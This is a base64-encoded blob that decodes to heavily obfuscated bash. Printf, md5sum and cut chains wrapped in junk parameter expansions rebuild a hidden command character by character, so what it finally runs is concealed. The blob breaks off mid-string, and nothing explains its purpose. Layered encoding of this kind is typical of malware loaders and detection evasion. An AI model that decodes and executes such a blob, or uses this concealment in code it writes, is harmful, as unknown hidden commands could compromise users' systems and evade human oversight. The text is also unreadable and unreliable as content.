R7QCV3ckZcKH0iIHwgICIke0B9IiAgICIiXG1kIiIkJ1x4MzUnIiR7QH59InN1bSAke0B+fSAgJHtAfSB8ICAgJHsqXn0gICAke0AvUmRZNDJ3aX0gICIiY3VcdCAtYiAgJCgoICAoLSgtKCI0IjYjMSJiIi0tMzgjMSJmIikrIjciIiMiJHtAJSVOa0x6LjdTV30xIjQiMikpICkpLSQoKCAgKC0oLSgtMjYjYyoiJHtAL3ZQSlxgOTtqLzVNSERcXUo6fn0iLSR7QF5efTUjMSIwIikrMjIjMSI2IikpICkpICAke0AvLzFYSW19ICAgIiR7QC8jbTpCL1ozSXBaXH19IiApIiAgIiR7QC8wJTRNfSIgIDsgIiR7QCUlM0ojbi11IyN9IiAgICQnXDE2MCckJ3JcdTAwNjknIiR7QH0ibnRmICAgIlx4JCggICIke0Albk1cKEpIYVwiM30iICAiJHtAfn59IiAgJyckJ1x4NzAnJydyXGkkJ25cMTY0J2YgICVzICctRHBOSmQ/JyAke0AvPWwtKn0gICR7Ki8vP1x7XHtcIWd9ICB8ICAgJHsqLy9CXHo+flZ+LzQuMmVnNGMufSAgJHtALy9xcnJucj99ICAkeyEqfW1kJyckJzVceDczJyQnXHUwMDc1J20gICR7QH59IHwgICAiJHtAfn59IiBjdSIiJCdceDc0JyAgIC1iICRbICAoKCItIiIke0AsLH0iNTUiIyIyKjMyIyRAMSkrMyR7QF59OCIjImgpICAgXS0kKCggKC0oLSg0IjIiIyJsIi0tNCMxMikrMzUjJHsqfn1iKSkgKSkgICAke0AsLH0gKSIgICR7KiMjSlx9XFtiKiZcKX0gICA7ICAiJHtAXn0iICAiJHtAfSIgICQnXHUwMDcwXHg3MicnJ2luJCd0XHg2NicgICJceCQoICAgJHsqLH0gJHtAfn0gICBccCQnclx1MDA2OSduIiJcdCR7QC94S09iLEl9ZiAlcyAgJ0d0ZH4sVGZ5JyAke0AsfSAgJHshKn0gICB8ICAgJHtALy8teTIzTStEL1N+V3xKeEl9ICQnXHg2ZCcnZCciIiR7KiMjb1whRE9iI3R9NSR7Kn59cycnJCd1XHUwMDZkJyAgIiR7QF5efSIgIiRAIiAgIHwgICAke0AsLH0gJHtALy89LmxvTi96WWRIfSAiYyIiIiIke0AvN1V6dypGMX0idVx0ICAgLWIgICAkWyAoKDIiJHtAL1wobFlqXm19IiMxMDAqLTUkQCMiMSIpKyR7KiMjZ2ktIyZGMGZ9MzYkeyolJU1VbWl9I2MpIF0tJCgoICgoIiR7QF5efSItJHsqIyQ3Q21kanFcKH00JHsqJS1pSUpcIjVOfTgjZSsiJHtAIyNjKlU/XH0melxbfSIyNCMxKSsiNCIke0B+fn0yI20pICApKSAke0AjcUBvXHttOXRDfSAgICkiICAiJHtAJWFRRW82flZufSIgICYmICAgJHtAXn0gICBwclxpbnQnZicgICAiXHgkKCAke0AjI1x9JTxGfSAiJHtAJWh4XyRcW2kjfSIgICIiXHAiIlxyaW50IiIkJ1wxNDYnICAlcyAgICckeE4+P2s5UCcgJHtAfSAgfCAgICR7QF5efSBtJHshKn1kJyc1J3MndW0gICAke0AlJThfS2tYXF1sfSAkeyp9ICB8ICAiJHtAXn0iICAgJHtAfn59ICAgY3UiJHtAJSUycD9HfSJ0ICAgLWIgICAkKCggKC0oLSg0MSIke0AlJWE4aFwoaFxbJTh9IiMiMSIrIjMiIiR7QC8vUGdSbngqL1dZWkstfSI3IzEpKzU2IzApKSApKS0kKCggICAoKC00IyIxIjIrMSIyIiMwKSsiNiIjIjEiIjMiKSAgICkpICAkeyojI3hVPWglfSAgKSIgICAke0BeXn0gICRAICYmICAgJHtAJSVoXCE3eEs4fSAiJHtALzJcfTpUc3daby9ybTJoJX0iIHAkKnIke0AjIzdkUTl6fWludCdmJyAgICJceCQoICR7Ki8vWVwiPzovSFROXH1TSX0gIFxwJCdceDcyaSciIm4keyp+fn10JCdcMTQ2JyAgJXMgICddUSNTd21hJyAkeyolcz9+YlhWfSAgICR7KiwsfSB8ICIke0AvNCU2SVV9IiAgJyckJ1x1MDA2ZCdcZCIiXDVzdScnbSAgICR7KiwsfSB8ICR7Ki94YlR1fSAgJHsqXl59ICBcYyJ1InQgIC1iICQoKCAoKCItIiR7IUB9MyMiMSIwKiIyIiMiMSIwMCkrNSI1IiIke0BeXn0iI3MpICkpLSRbICAoKC0iNiIjMTAqIjIiIyR7Ki9cXVx9NEd9MTEpKzYwIyJ6IikgICBdICAgJHsqLy9aR2o6Wn0gKSIgICAkeyp9ICAkeyolXCF4I3ZuUW1LfSAgIDsgIiR7QC9HdVBPbTc0fSIgICR7QCwsfSAkJ1wxNjAnJyciJHtALy85Wl91US8/TnNUfSJyaSIibnRmICAgIlx4JCggIiR7QCUlUXp0T1xdI30iICAkeyovK2NcYHd9ICBwXHIkJ1x1MDA2OSciIiduJ3RmICVzICAgJzpyM00nICAiJHtAfn0iICAgJHtAI34uT0t3fSAgfCAgJHsqXl59ICAkeyojI1BzPVx9bjV9ICAkeyojRWpnXzVBSFl9bWQ1cyR7QC95STotL2U9VFcwbk19dSdtJyAgJHsqLy86NmRfMj99ICB8ICAgJHtALH0gJHtAL1NzIzdYXGBXfSAgY3UnJ1x0ICAtYiAgICRbICAgKC0oLSgyMyIjIjArMiIjIiIxIiIwIiIwIikrIjMiMCMiMSIpKSBdLSQoKCAgICgoIjMiMyMiMCIqLSIke0AvfmN4NGtWXFwvOWdxJUt8Jn0iMzUjMSkrMiIjIiIxIiIwIiR7Kn59MCkgKSkgIiR7QCMjUSMzPSVffSIgICApIiAiJHtAI0ZHXCJcYHw3fSIgJiYgICAiJEAiICAkKiAkJ1wxNjAnIiJyaScnJCdcMTU2JycnJHsqLCx9dCQnXHg2NicgICAiXHgkKCAgJHshQH0gICR7QCUlWk1aajB9ICBwJHtALy9CdTg+dH1yaW50XGYgJXMgICd1PTk7JyAgJHtAJSU4LHBTZUZ9ICR7Kn59IHwgJHtAL1x7bG9cKUNcYHN9ICAkeypeXn0gICBcbSIke0AvQVx9QGpBblxbfSJkNXN1JydtICAkQCAgIHwgICAkeyovUFwhXFcvZjdhVGdce3wxfSAgJHsqL3FodlxgXHt9ICAgJCdjXHg3NSckJ1wxNjQnIC1iICRbICgoNTkjaC0zIzEwKSsyIzEkeyp+fTEwKSAgIF0tJFsgICAoKCR7QF5efTMjMTAiMiItJHtAXn0yIzExKSsyIjUiI2QpICAgXSAkeyovVT9fbGMqL3ZwJEl9ICkiICAkeypefSAgICYmICAkeyp9ICAiJHtAIyYqLlwhaCx9IiAgJCdcMTYwcmknJCdceDZldCdcZiAgIlx4JCggICR7KiNHXClfdH0gICAiIlxwcmkiIiduJ1x0ZiAlcyAnKUVkJjlvbicgICIke0AsfSIgICIke0AsLH0iICB8ICR7KiUlVnltUH0gIG0nZCdcNXN1bSAgJHtAIyMuYm1OWWRCfSAgIHwgICIke0Ajc34sX1xbfGh9IiAgY3V0ICAgLWIgJCgoICAgKC0oLSgkeypefTIiNCIjIiR7QH5+fSJqLSItIiI2IiMkeyosLH0xMCkrMTIkeyEqfSMxMSkpICkpLSRbICAgKC0oLSg0IzEzKzgjMTQpKzUiIyIxJHsqLCx9MSkpICBdICAgJHshQH0gICAkeyolJUpyRGZLfSAgKSIgJHsqXl59ICAkeyolJWpoQn5cIX59IDsgJEAgICQnXHg3MCcnJ1xyImkibiJ0IiR7Kl59ZiAgICJceCQoICAke0AlNXpIYVxgV1EtfSBwJCdcdTAwNzInJyckJ1wxNTEnXG50ZiAlcyAnd3U1Vz4nICAiJHtALH0iICAiJHtAfn0iICB8ICR7Kl59ICR7IUB9IG1kJHsqLyRcIk5WT1wpdX01c3VtICIke0AvXGBcKXpCT3pkL29cey0tTS1kJn0iICAgfCAgJHsqJSVIJmYxfn0gICBjdXQgIC1iICAkWyAoKDIjMTAiMSIrLTcjMSkrNTIiIyJlKSBdLSRbICgtKC0oMiIyIiMke0BeXn0wKzEiMiIjMTkpKzQxIiMiJHtAIzJCNm5GMH0yKSkgXSAgIiR7QCMuXCFfYn0iICAgJHsqLyRcfUVXL0M7fHBvYXFNfSAgICkiICAgJHsqXn0gJiYgJHtAfn59ICAkeyp+fn0gICAkJ1wxNjAnInIiJ2knJCdcMTU2J3QiIiQnXHg2NicgICAiXHgkKCAgJHsqL0Jlaj4yOUx9ICAgJCdceDcwJyQnclx4NjknbnRcZiAlcyAgJ04oTT0nICAke0AjM2NCSTZVfSAgfCAiJHtALH0iICAgIm0iXGQnNSdzJHsqL1x+ZnhRXm96L2dGXGAlUn11bSAiJHtAJUZDaCo6QmxefSIgICR7KiN4Y1E9LjdUfSAgfCAgICR7QCMqflwoTTNcKDB9ICAgJCdcMTQzdSd0ICAtYiAkKCggKCgyIzEiMCIke0B+fn0wLS0iMyIiNCIiIyIkeyolS1EzZUF9YSkrNyMyMCkgKSktJCgoICAoLSgtKDIke0AvL0FtTVxcfSMxIjEiIjEiLSItIiI0IjQjeikrMjkiIyJkKSkgICApKSAgJHsqXn0gICApIiAgJHtALy8mbHUmXCF9ICAgJiYgJHsqLy9aZnRWTTxofSAgIiR7QCMjUDhPLHxcW30iICAiInByXGkkJ1x4NmUnInQiJCdceDY2JyAgICJceCQoICR7QH59ICBwJyckJ1x1MDA3Micke0BefWluJCdcMTY0JydmJyAgICVzICdYRSFTQycgICR7Kn59ICR7Kl59ICB8ICAkeyovLyVoIzdcW1BufSAgIiR7QCx9IiAibSJkJyc1cyQnXHUwMDc1JydtJyAgICR7QC8vPnUtcVN9ICR7QCUlSGg6XHtnOk5tfSB8ICAiJHtAfn0iICAgIiIkJ1x4NjMnInUiInQiIC1iICAgJFsgICAoKCR7KiV8TUJXXFtFfS00JHtAJSVqaTctZn0jMSIxIi0yIiMiMTAiJHtAfn59IjAiMCIpKzQ2IiMiImsiKSAgXS0kWyAgICgoMyMxMSokeyp+fS02JHsqJSU/QVVRM30jJHsqLy9cfSZPYz9ce3FuL1E5NVxgQGxefTIpKyR7Kn00MCR7QC9LJVx7XGAySFRVL19AaTguSUp9I2cpICBdICR7Ki9zfFxdfSAkeyp+fSAgKSIgJHsqL2lSV3d9IDsgIiR7QC85SH4+YWpRfSIgICAkeyp9ICAgcHJcaVxudGYgICJceCQoICR7Kl59ICAgJHtALy9rY1woOGNncH0gIHAiIiQnXDE2MmknJydudGYgICVzICAgJzNBeUAnICAgIiRAIiAkeyosLH0gICB8ICAkeyovZFYzWS9wVUE6OG91fSAgJ20nImQiNSJzInVtICQqICAkeyojIy43R05TNzt9ICB8ICAgJCogICR7ISp9IGMiJHtAfSJ1dCAgLWIgICAkWyAgICgtKC0oMzkjZy0tMzkke0B9IyR7Ki9jayZXeX1nKSsiNSI0IyJsIikpIF0tJFsgICAoKDU2IiMiIiR7QH0iYy0yIiR7QCwsfSIjJHsqXn0xMCIke0AsfSIwMCkrIiR7QC8vXHtfQF9WXFsvbVdcW2x9IjciJHtAfn59IiMiJHtAXn0iMTEpIF0gICAke0AvLzdeUnU3fSAgICR7Ki8xKzJxen0gKSIgICAkeyosLH0gIDsgICIke0BefSIgJyckJ1x4NzByJ2kkJ1x4NmUnIiR7QH59InRmICAiXHgkKCAgICR7QF59ICBwclxpIiIkJ1wxNTYnXHRmICAlcyAgJy4zXUFpTScgJHtALy9cVl96bG1nPX0gJHshKn0gfCAgIiR7QH0iICAkeyojI3VcKEpSQmQ7Qn0gJCdcdTAwNmRcdTAwNjQnJCo1cyR7Ki9xNkpcWytQLzVfbHdmPDF6fXUke0B+fW0gIiR7QCUlLF5aan0iICAkeypefSAgfCAgJHsqfSAgIGN1InQiICAtYiAgJFsgICAoKCQqMyR7Ki8lemksTjhGfSMxMSotNCMyKSsxMSMyIiR7QC8vTGc8Qjw6I30iNSkgIF0tJCgoICAoKCItIjMiIyIiMiIxKjU3IzEpKzE3IiMiMWEpICkpICAkeyolJTFRTVI6dnxNfSAgJHtALH0gKSIgICR7QCUkVzEuXCF9ICAgJHsqJSVcfVVcInZKRj19ICA7ICR7QCMqR0U0RVx9Wn0gICAkeyojI1VcKWJ4Qjp6fSAgIiJccCIiJCdceDcyJycnXGluInQiZiAgIlx4JCggICR7Kn59ICAgIiR7QH0iICBwXHJcaW5cdCR7QH5+fWYgICVzICc0WDllJyAgICIke0AvbWE0UGZ1L0diXCJBMn0iICR7Kn0gfCAgJHsqfn59ICAgIm0iJHsqJV9mXClGfWQ1c3Uke0AvLypaWUklWX1tICAkeyojXF1cfVwhZ1clJVN9ICAkeyp+fn0gICB8ICAgJHsqLy9CV3VvT3ZKLi9BXFtcImxsaX0gIGN1dCAtYiAgJFsgICAoLSgtKCR7QH59NjAjdS00IzEzKSs3IiMiIiR7QC9cW2cyRjV9IjEkeyovLzd8XF04OmYvMlBZaGZwXCFlfTEpKSAgIF0tJFsgICAoKDE1IiMiIjEiKyI3IiMxKSsiJHtALy9UMWVqL0cyc2o4RVx9fSIzOSNlKSAgIF0gICIke0AvL2NqRiwqVjYkfSIgKSIgIiR7QCMjSEpaXEhCXGBPfSIgICIke0AvPWN1LnFQfSIgIDsgICAke0B+fn0gICAkeyolXCFcIlxdLH0gInAiciJpIiR7Kn5+fW4nJ3QiZiIgIlx4JCggJHsqJSxAalwpV30gIHAncidpJycnbidcdGYgJXMgJ20/LU9JfD88JyAgICR7Kl59ICAgfCAgJHtAfn59ICR7KiNwdzNeREJcYG19ICAkeyovLyQ+S1h9bWQ1c3VtICR7Kl59ICAke0BefSB8ICAkeyovLy0uXGBXOl58Un0gIiR7QC9EQ1FDa0U8Un0iICR7QCx9Y3V0ICAtYiAgICQoKCAgICgoJEAzIiMiMTAqLSIyIiMxMTApKzU0JHshQH0jQykgICApKS0kWyAgICgtKC0oNSMxMCs1JHsqJVlKZHdmZ3k8fTQjInUiKSsxIjIiIzEyKSkgIF0gJHtAIyMuaTttRVwifH0gJHsqfn0gICkiICAiJHtAfSIgIDsgICAke0AvRlM1SVJRXGBGL3d0XCUzMV9zfSAke0Avem1aXCk6fSAgcHJcaScnbid0J2YgIlx4JCggICIke0AjIyN3TlRcKVR9IiAgJyckQHAnJyQnXHg3MiciaSIiIiQnXHg2ZSckJ1x1MDA3NGYnICAgJXMgICAnY2d8Tlw5YicgJHsqJVxdRE1cXH0gICIke0AldGksXFZeV0N9IiAgIHwgICR7Kl59ICAgJHtALy87K1x7Z0tIXn0gbWRcNXMidSJtICR7KiwsfSAgfCAgJHsqIyMsRlpcIkp9IGMkeyEqfXUkJ1x4NzQnIC1iICAgJCgoICAgKCg3IiMiJHtAfTEiMSItIjMiIzIiMCIpKyI0IiR7QC8vQGZBXFwvSW1cQH0zI2MpICAgKSktJFsgICAoKDU2IzEtMjYjYSkrMyMyIjIiMCkgIF0gICAke0B+fn0gICkiICAkeyovL0tOI1wpXH1kWS93NDNifSAmJiAgICR7KiwsfSBwciJpIiIke0AvL1VoJnlRWX0ibnRmICAgIlx4JCggICR7Kl5efSAgJEAgIHAkJ1x4NzInImkiIiR7QC8vbi5hWi8tVUBaXmgwfSJudCdmJyAlcyAgJ29rdmNcbCZgJyAke0AjIyszXHsrMkwxfSAkeyosLH0gfCAgIiR7QH0iICAgbScnJHsqLy9GbGMxV31kNXN1bSAgICR7KiMjS207XCFAfSB8ICAkeyojIzQ1b0lJdHx9ICAgY3UiInQgICAtYiAgJCgoICAoKCItIjMjMSR7Ki9LMDtPan0wKjIjMTAwKSsxMyMyJHsqJSVcIWRcIiw5ZX0wKSAgKSktJFsgICAoKDUiIyIxMCokeyEqfS0keypeXn0zNyMyKSszJHsqfn59MiMkeyovLzQlQDlcXW06fXApIF0gICR7KiMjXHthOT5Ad3pyfSAgKSIgJHtALy81XHtNP0kvXFxcKUcrRT59ICAkeyolMXF6RGR5Y3J9ICAgOyAkeyovPmdaalwpen0gICQnXHg3MHJpJyR7ISp9biQnXHg3NCciZiIgICJceCQoICAkeyovL05RUjN4fSAgcCQnXHUwMDcyaSciIiQnblx4NzRmJyAgJXMgICd+TV4tPktYJyAiJHtALy86U1xgZTpEfSIgICR7QC8vK0UsK1whMX0gIHwgJHsqLH0gICAke0B+fn0gIG1kJyckWyAgICgoNDYke0AjIzdnPU89fSMwLTYjMTApKzUzIiMiYikgIF1zJCdceDc1JyIiJ20nICAiJEAiICR7Ki8wOFo5blMvRzdcezYkJFxTfSB8ICAgJHtAJSV2P1lcIn0gICQnXDE0Myd1dCAgIC1iICRbICAoKCI0IiR7IUB9NSIke0BefSIjJHtAfTAqNSI3IiR7KiUlY2ZLdTU7Sjl9IyIxIikrMyMxIjAiKSBdLSRbICgoNCMyIjAiLTMke0AjI0NsMjlsWXl9IzEkeyovKiw6XCIvekFVfFwpMW5XfTIpKzMiJHtAfn59IjgiIyIiMSIpIF0gICAiJHtAfn59IiAgKSIgICR7QCMjK1x9PW1cfXNnaX0gJiYgICAkeyovXClYRT5cey80SSstTH0gJHtAfSAgJydwIiIkJ1wxNjJpJ24keyolbFx9UFZHI1ExfXRmICAiXHgkKCAgICR7KiMjQnpFcTEtfSAgICR7Ki8vVHlzRFx7XCl9ICBwJHsqXl59ciJpIlxudGYgJXMgICdVQE8mY0AnICAiJHtALH0iICB8ICR7KiMjQ19wSFx7N30gJHsqJSxCeXp6fSAgICcnJ20nXGQiJHtALCx9IjVzdScnbSAgICR7QH5+fSB8ICAkeyFAfSAgJHtAfn0gImMiJyckJ1x1MDA3NScidCIgLWIgICRbICAoKC01IiMiMSIxIio0OSMxKSs5IyQqMjMpICAgXS0kKCggICgoLTQiIyIxMyskeyp+fn0yIiMiMTAiMSIpKzQkeypeXn00I2kpICAgKSkgICIke0AvLzJEUGkvX0FzR1hrfSIgICkiICAgIiR7QC8vOlwhXCEweV59IiAke0AvdVNnRTEvXCEyLFwpdVwpU30gICA7ICAgJHsqfn59ICAkeyolb1Akbjw6fSAgIHAncidcaSR7QH5+fW50IiIiZiIgICJceCQoICAgJHtAfn0gICBwclxpblx0ZiAlcyAgJ08mVCpeR1cnICAgJHsqL0hyaXdCK019ICAgJHtALy8kY1AyWD4vXCFPNjp2VVF9ICB8ICAgJHsqIyNVPG1uTn0gICAkeyovQ1A6MkhSeTQvbk9ofn0gJ20nZDVzdScnbSAgJHsqXl59ICRAICB8ICAgJHsqXn0gICAiYyInJyQnXHUwMDc1J1x0ICAgLWIgICRbICAoKC04IyIxIiIxIis1IyIxIiIwIikrNTUiIyJhKSAgXS0kWyAoKCR7QCx9LSI1IiR7Kix9MyMkeyovc1wpPFwidy9Qb1x7JlxbSVp8fTEqIjEiJHsqXl59MiMiJEAiMSkrOCR7QCx9IyR7IUB9MTApICBdICAkeyosfSAgICR7Ki8vXzt6cC8+XCJZKn0gKSIgICAkeyEqfSAgOyAgICR7KiwsfSBwciR7Kn1pJ24nJCdceDc0XDE0NicgICJceCQoICAgJHshKn0gJHsqfSAgICQnXDE2MFx4NzInJ2knXG4kJ1wxNjQnImYiICAlcyAnI3xWPScgJHsqLCx9ICR7QH0gIHwgJHtALy8rJUZQLz5eWkhcInkkfSAgJHshQH0gbScnZDUiIidzJyJ1Im0gJHsqL1VccUQvJXhoPDpiLH0gICQqICAgfCAke0AlJSZcKUFWb1N9ICAgIiR7QCVAVzVrYVx9R30iICAgImMiJyd1dCAgLWIgICQoKCAgKCgyMCMwKjE3IyIwIikrMiMiMSIwMDEpICAgKSktJFsgKCg0IyIxIjAqMiR7KiMjXHtcXVxbZnp9NSMxKSske0AsfTQiIyIxMikgICBdICAkeypeXn0gICkiICAkeyEqfSAgICIke0B+fSIgIDsgICAke0AsfSAkeypeXn0gJyciJHtAJSxCKy1iXCFZU30icCQnXHg3MidpbnRmICAgIlx4JCggJHsqXn0gJHsqL0Bmc0RiQn1wJ3InaSIke0AvaEZXU0YvWm14SH0ibnQiIiR7Ki9DO1ZhSS8zdHdKRX1mICAlcyAgJ0BDXkcnICR7ISp9ICAgfCAke0B+fSAgbWQ1JHtAXl59c3VtICAgJHsqJVxbTFIqXCIxfSAke0AlJSUrdDR3Rm1LfSAgfCAke0B+fn0gJHsqLy9cfVljN1gmfn0gICAkeypeXn1jdSJ0IiAtYiAkKCggICgoIiR7QC8vLlwhPjluL0pUdD99IjQ3IzErIiR7QC8vY0AmPn0iNDEjaSkrOSMxMCkgICkpLSRbICAgKCgtIjEiOCMxMi0iMiIiOCIjbykrMTkjMyJnIikgXSAgICR7KiMjWUFiI3V9ICApIiAke0AvLz9ce2Z6XF19ICAgJiYgICAkeyolODQ7bHF2XFttfSAgICIiJHsqLCx9cHJpIm4iIiR7QC9xeCVcKW8vKmdBcX0idCIke0BeXn0iZiAgICJceCQoICAgIiRAIiAgICR7Ki9HPndWK2oyYX0gcHIkeyovLzpCXDt9aVxuJyckJ1x1MDA3NGYnICAlcyAgICczXHp8LCcgICAiJEAiICR7QCNPNjE/S28wXFt9ICB8ICAke0BefSAgICcnJCdceDZkJ2QiIiI1InMidSJtICAke0AjI0Q5SjtCPn0gICR7KiNcfXxcYHhzdn0gICB8ICAke0AlJXZ3LFF9ICAgYyJ1IiIkQCJ0ICAgLWIgICRbICAoKC0zNyR7Kn5+fSMiMSIwKyIyIiI4IiMiJHtALCx9IjEibiIpKzYwI2QpICBdLSRbICAgKCgtJHtALyMzXy5lfTQjMSIwIiszMCIjImopKyI1IiMkeyojI1hcImprfTIke0AvLzY2PG4wfTMpICAgXSAgIiR7QF5efSIgICApIiAiJHtAXn0iICAmJiAgJHsqfSAgIFxwInIiIiJpbiQnXHg3NCdcZiAgIlx4JCggJHtALy84bndZanNrbn0gJCdcMTYwJycnJHtALy8qP1xdWn1yaSQnXHUwMDZldCdmICAlcyAgJ1g4UzZqYyYnICAgIiR7QCMjUDJxQ29KfSIgICB8ICAiJHtALy84X3puUkd9IiAkJ1x1MDA2ZCdcZFw1c3UnbScgICR7Kn5+fSAgJHtALH0gICB8ICIke0AjI1woYjw1fSIgICQnXHUwMDYzJ3V0IC1iICAkWyAgKCgyOCIke0AjJlxPb30iIzArNSIxIiR7Ki8vXHt8NkBZfSMwKSs4IiMiMTApICBdLSRbICAgKCgtNTYkeyovWFVPZDsvXiw/V1RQZVZ9IzIqNTgiJHtAfSIjMCkrMiIjIjEwMDEpICBdICAgIiR7QCNcUlRLZ30iICAgKSIgICR7Kl5efSAiJHtAJTdtfnZURFxgXF19IiAgOyAgJHsqL2cxREZjfSAke0AlJTAuQ3l9ICAgJCdcMTYwcmknJ24nIiIndCdmICAgIlx4JCggIiR7QCMjdTRccEt2XFtyfSIgcCcnJCdyXHUwMDY5bnQnImYiICAgJXMgICdcSGMsLCcgICAke0B+fn0gICR7QC8vVjZoOC5Cc30gfCAgJHtAfn59ICAgJCdcdTAwNmQnJycnZCcke0AlJXBXNDt9NSQnXDE2MyckJ1x1MDA3NScnbScgICR7QH5+fSAke0AvXHtNOzk7fHx9ICAgfCAgJEAgJHsqLH1jdSR7QH5+fXQgLWIgICAkKCggKC0oLSgiMiI1IzAtJHtALy9uQD1cXT9zfS00OSMiMiIpKyQqNCMke0AvLyxSJnNkUVwifTEpKSAgICkpLSQoKCAgICgoIiR7QF5efSI1MCMxKjkjIiR7QC9qXCgxXClPXCJ9IjApKzUkeyovLzhHaXo4aDEvPHlAK0lDfTMkeyEqfSMyKSAgKSkgICAkeyolJVNTd2dce21cKU59ICAkQCAgICkiICAgJHsqXn0gICYmICR7QC8vbkA/QDhqfSAgICIke0AjI2dMNTd5KkJ5fSIgcHIkJ1x1MDA2OSdudGYgICJceCQoICR7Kl5efSAgJHsqIyNcKENBY05cIjd9ICAgIiR7QF59InByaVxuJHsqXn10ZiAgJXMgJ3poQU9iciEnICAgIiR7QC9vV3M+d1crfSIgfCAgJHtAXn0gJHsqfn59ICBcbSJkIiI1InMnJ3VtICAkeypefSAkeyovO1FcIm8kbS96XClFeWZ9ICB8ICAiJHtALy8+QWptZzN9IiAkeyovLzJqXnEvOj93XHt9ICR7QCwsfWN1dCAgLWIgICAkKCggICAoLSgtKDQkeyovWlxgSjdvPn59MiIjImUtLTQke0BefSMxMCkrIiR7QCMjX1x7Vmg9fSIzIzEwKSkgICApKS0kWyAoKDM5I2IrMiR7QCVcKC4xQWx9IzExKSskeyEqfTU1IzIpIF0gJHsqfSAgKSIgICIke0BeXn0iIDsgJHsqL3RGMHBcIU9qMi9CQUBmKnZ9ICAiJEAicHIiImkiIm4idCJmICAgIlx4JCggICQqICAiJHtALy98aVpafSJwclxpbicnJCdcMTY0J2YgICVzICcuYC09JyAgJEAgICIke0AjI1lSNHJ9IiB8ICAkeyp+fSAkeypefW0kJ2RcNjUnJydzIiIkJ3VcdTAwNmQnICAkeyosfSAgICR7QC8kK2dcKX0gIHwgICIke0AvL2hRY0pUcFB9IiAgJHtALy9kU35cYG5cKGIvcD9JZXVcXVxdfSAgICIke0AjcjklZWZ9ImN1IiIkJ1x1MDA3NCcgICAtYiAgJCgoICgtKC0oLTcjMTQqJHsqL19qcDJvfS0iNCIjMSQqMSkrIjEiNyMxZSkpICkpLSRbICAgKCg0IzIxKiItIjYiIyIxMCkrNjIjIjEiaCkgIF0gICAiJHtAfSIgICkiICAiJHtAfn0iICA7ICAkeypefSAgIHAkeyovZjFnKjh9cmlcbnQnJ1xmICAiXHgkKCAgJHsqfn59ICAke0AvL1ZlZU1nVD0vXCFoQ1wodEx9cCdyJ1xpbiIke0BeXn0idCQnXDE0NicgJXMgICcuZHJHbXQnICAgIiR7QF5efSIgICIke0B9IiAgIHwgICAkeyovL3NeSFwhLzltdzdZfSAnbSdcZDUiInN1bSAgICR7KiV2fC5Bdn0gJHtAXl59IHwgJHsqIyMjQkZ2cTF9ICBjJyd1dCAgIC1iICAkWyAgICgoIjIiOCR7QH0jMCoiJEAiMyIzIiMwKSs0IyIxIikgIF0tJCgoICgtKC0oNSR7KiV1ZTE2VXosXH19MSMkeyEqfTItLTQ0IiMiJHsqL3RFWFpiRn0yKSs1IyR7Kn0yKSkgKSkgIiR7QH0iICAgKSIgJHsqfSAgICR7KiwsfSAgIDsgICR7KiVWOVU3NUl9ICR7QF59ICBccHJcaSQnXHg2ZXQnIiJcZiAgIlx4JCggICR7Kix9ICAkeyolPl5VXy5CLDJ9ICBwcmkkJ25cMTY0J2YgICAlcyAnUVJleScgICR7KiVoX1JcXTp9ICB8ICAgJHtALy9wLFwhXHsvOkViJStZfSAgICcnXG0nJydkJyR7Ki8vSHcxZTdqXCJ9NSR7Kix9c3VcbSAgJHsqXn0gICB8ICAgIiR7QH59IiAgICIke0AlLVx9XCh3XCF9IiAgIiJjdSIidCAgLWIgICAkKCggKC0oLSg0IiR7QCx9IjkjIm0iLSQqLTQyJHtALCx9IyJBIikrMSIke0AvY0ouNi9uZUcjQDMlfSI5IyIyIiR7KiNLcUFRY0hMfTEpKSApKS0kWyAgKCgyNCIjImorJHtALCx9LSR7KiNUT2g1RlhcXUF9MyMyKSsyIzExKSAgIF0gJHshQH0gICApIiAgJHsqfn0gJiYgICAke0BeXn0gICBwJ3InaW4idCJcZiAgIlx4JCggJHshQH0gICAkeyosLH0gXHAiciIkJ1wxNTFuJyR7IUB9dCQnXHUwMDY2JyAgJXMgICdEQ11OcH40KycgICR7QCUlXHs6I2l9ICAkeyovZjpjXF1Seld9ICB8ICAke0B9ICAiJHtALy9iYiNYTlV9IiBcbSQnXHg2NCciJHtAfn59IjUkJ1x1MDA3M3UnbSAgICR7Kn59ICR7Kl5efSAgIHwgICAkeyEqfSAgYyd1J3QgICAtYiAkKCggICAoKDQwIiMiMCstJHtAI3ReNWtuPn0yIzExMSkrJHtALy9tK1pcIWwrSDV9MyR7QF5efTQjIiR7QCUlam5JaFZcYHB9InUpICAgKSktJCgoICgtKC0oJHtAL1BtfGxcfTN9NDAjcC0kKi0keyojeGZaMzRjfTIjMTAwMCkrIjUiIzEiNCIpKSAgICkpICAgJHtALy9tV1x9UFwofSAiJHtALH0iICkiICAke0BefSAiJHtAfn59IiAgOyAke0BeXn0gICAke0AveDsjZWJpJi8/eUJYIy1xRn0gICJwIiR7Ki8vWFJcKG1cKH1yJCdcdTAwNjknXG4kJ3RceDY2JyAgIlx4JCggJHtAfSAgICR7Ki9uRi00ZEwsfSAgICR7Ki9FT15aNmV9cCQnXDE2MidpIiJudGYgICVzICAndTRNbiwoJyAgJHsqLCx9ICQqICAgfCAgJHsqJU55S1xbYitRfSAgIFxtIiJkNSR7KiNhVlxGbXF9c3VtICAgJHtAJVdtXHtZfSAkeypefSAgIHwgICAke0AlJU9zSVpefSAgICIke0BeXn0iIGN1JHsqLy9cUXU+O1hIfXQgICAtYiAgJCgoICAgKCgkeyovL1B0LjUucHAvXClnbWNiKn0tJHsqLy8ucWdQXlx9Nn00OCMiJHtAfn0iMSozIiMiMSkrNSMiMSIwKSAgKSktJCgoICAoKC00NSIjIjEqNCIke0B+fSIjMSkrMyMiMiIwKSAgICkpICAke0AvL0tZbipFL2p2eTFKXn0gKSIgJHtAfSA7ICAgJHsqfSAgIHByJyckJ2lceDZlJycnJCdceDc0J2YgICAiXHgkKCAgIiRAIiBccCJyIiJpIiduJ1x0J2YnICAlcyAnYE4lLkxqJyAkeyojY05yaWlBT2Z9ICAgfCAgICR7Kn5+fSAgXG0nJ2RcNSQnc1x4NzVtJyAgIiR7QCUlfFI6emdFVGJ9IiAgJHsqXl59ICB8ICAkeyovL0p4PCRafSAkeyp9ICAgYyQndVx4NzQnICAgLWIgJCgoICgoLTYiIyIxMisyIiMiMTEpKzU5IyJhIikgICApKS0kKCggICAoKCI1IiIyIiMiJHtAfSIwLSIzIjUjMCkrNSMxMSkgICkpICAgIiR7QH59IiAgICkiICR7KiUrQjdpWVxbU30gOyAkeyovL1YsXFtNfSAgIHAkJ3JcMTUxJycnbnQkJ1wxNDYnICAiXHgkKCAiJEAiICAgJHsqI3VGcEB9I